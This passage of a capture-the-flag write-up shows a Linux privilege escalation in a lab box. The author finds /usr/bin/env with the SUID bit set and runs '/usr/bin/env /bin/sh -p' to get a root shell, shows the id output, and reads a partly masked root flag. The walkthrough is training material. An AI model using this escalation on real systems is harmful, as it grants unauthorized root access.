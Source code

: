 ```console
/usr/bin/env
```
As soon as I saw env with SUID bit activated, I went to [gtfobins](https://gtfobins.github.io/gtfobins/env/#suid) to check whether this can be used to escalate my privilege to root and turns out I can.
I havenot listed all the binaries with SUID bit enabled here.

## Getting root shell
```console
namelessone@anonymous:~$ which env
/usr/bin/env
namelessone@anonymous:~$ /usr/bin/env /bin/sh -p
# id
id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

## Reading root flag
```console
# cd /root
# cat root.txt
4d93************************f363
```